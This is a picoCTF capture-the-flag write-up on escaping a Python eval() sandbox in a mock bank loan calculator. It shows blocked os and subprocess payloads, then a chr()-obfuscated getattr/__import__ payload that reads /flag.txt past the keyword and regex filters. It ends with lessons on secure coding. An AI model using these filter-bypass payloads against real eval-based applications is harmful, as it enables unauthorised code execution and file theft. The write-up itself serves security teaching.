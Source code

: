 # **picoCTF Write-Up: 3v@l **  

## **Challenge Overview**  
The challenge involved a vulnerable loan calculator on a bank’s website that allowed users to input a mathematical formula. The backend executed this input using Python’s `eval()` function, creating a security risk. However, the developers attempted to mitigate Remote Code Execution (RCE) by blocking certain keywords and implementing regex filters. Our goal was to bypass these restrictions and read the flag from `/flag.txt`.  

---

## **Step 1: Analyzing the Source Code**  
The provided source code revealed the following security measures:  
1. **Keyword Blacklisting**: The application blocked keywords such as `os`, `eval`, `exec`, `subprocess`, `socket`, `cat`, `bind`, and others.  
2. **Regex Filtering**: The following patterns were blocked:  
   - **Hex Encoding** (`0x[0-9A-Fa-f]+`)  
   - **Unicode Encoding** (`\\u[0-9A-Fa-f]{4}`)  
   - **Percent Encoding** (`%[0-9A-Fa-f]{2}`)  
   - **File Extensions** (`\.[A-Za-z0-9]{1,3}\b`)  
   - **Slashes and Traversal Characters** (`[\\\/]|\.\.`)  
3. **Direct Evaluation of User Input**: Since `eval()` executes arbitrary expressions, any input passing the filters could potentially execute Python code.  

Despite these protections, **`eval()` was still processing user input**, meaning we had a possible vector for RCE if we could construct a valid payload.  

---

## **Step 2: Initial Exploitation Attempts**  
We first attempted standard Python command execution payloads:  

```python
__import__('os').system('cat /flag.txt')
```
🚨 **Blocked**: `"Error: Detected forbidden keyword 'os'."`  

We then tried using `subprocess` as an alternative:  

```python
__import__('subprocess').getoutput('cat /flag.txt')
```
🚨 **Blocked**: `"Error: Detected forbidden keyword 'subprocess'."`  

This confirmed that direct access to system-level commands was restricted.  

---

## **Step 3: Understanding the Filtering Mechanism**  
### **3.1: Testing for Built-in Function Access**  
Since `os` and `subprocess` were blocked, we attempted to access built-in Python functions dynamically:  

```python
getattr(__builtins__, 'open')('/flag.txt').read()
```
🚨 **Blocked**: `"Error: Detected forbidden keyword 'open'."`  

This indicated that **blacklisted keywords were detected even when accessed dynamically**, meaning the filter was applied **before** execution.  

---

### **3.2: Discovery of Quote Restrictions**  
At one point, the error message changed to:  
🚨 `"Error: Detected forbidden keyword ''."`  

This suggested that **quotes (`"`, `'`) were entirely blocked**, preventing us from defining strings in the usual way (`"cat /flag.txt"` or `'cat /flag.txt'`).  

---

## **Step 4: Bypassing Quote and Keyword Restrictions**  
Since quotes were blocked, we needed to construct strings dynamically. The `chr()` function, which converts numbers into characters, became our key tool.  

For example:  
```python
chr(99) + chr(97) + chr(116)  # This spells "cat"
chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116)  # This spells "/flag.txt"
```
This allowed us to form blocked words **without directly typing them**.  

---

## **Step 5: Crafting the Final Exploit**  
Now, we needed a way to:  
1. Access Python’s built-in functions dynamically.  
2. Construct blocked words (`open`, `/flag.txt`) using `chr()`.  

The working exploit was:  

```python
getattr(__import__(
    chr(98) + chr(117) + chr(105) + chr(108) + chr(116) + chr(105) + chr(110) + chr(115)
), 
    chr(111) + chr(112) + chr(101) + chr(110)
)(
    chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116)
).read()
```

---

### **Step 5.1: Breaking Down the Exploit**  
1. **Accessing `builtins`**  
   ```python
   __import__('builtins')
   ```
   - The `builtins` module contains Python’s core functions, including `open()`.  
   - Since `"builtins"` was blocked in plaintext, we built it dynamically:  
     ```python
     chr(98) + chr(117) + chr(105) + chr(108) + chr(116) + chr(105) + chr(110) + chr(115)  
     ```
     - This translates to `"builtins"`.  

2. **Retrieving the `open()` Function**  
   ```python
   getattr(__import__('builtins'), 'open')
   ```
   - Since `"open"` was blocked, we built it dynamically:  
     ```python
     chr(111) + chr(112) + chr(101) + chr(110)
     ```
     - This translates to `"open"`.  

3. **Reading the Flag File**  
   ```python
   open('/flag.txt').read()
   ```
   - Since `"/flag.txt"` was blocked, we constructed it with `chr()`:  
     ```python
     chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116)
     ```
     - This translates to `"/flag.txt"`.  

4. **Executing the Payload**  
   ```python
   getattr(__import__('builtins'), 'open')('/flag.txt').read()
   ```
   - Successfully reads and returns the flag. 🎉  

---

## **Step 6: Lessons Learned**
1. **`eval()` is Dangerous**  
   - The root cause of this vulnerability was using `eval()` to process user input without proper sanitization.  
   - `eval()` should **never** be used with untrusted input, as it allows arbitrary code execution.  

2. **Keyword Blacklisting is Ineffective**  
   - The challenge attempted to block dangerous functions but failed because Python allows **dynamic function access** (e.g., `getattr()` and `__import__()`).  
   - A better approach would have been **whitelisting** safe operations rather than blacklisting dangerous ones.  

3. **Quotes Can Be Bypassed with `chr()`**  
   - If quotes are blocked, `chr()` can be used to construct any string dynamically.  
   - This is a powerful technique when dealing with strict input filters.  

---

## **Conclusion**
By understanding how Python executes code and how filters were applied, we successfully bypassed multiple layers of restrictions to achieve **Remote Code Execution (RCE)** and retrieve the flag. This challenge reinforced the importance of **secure coding practices**, especially when handling user input.  
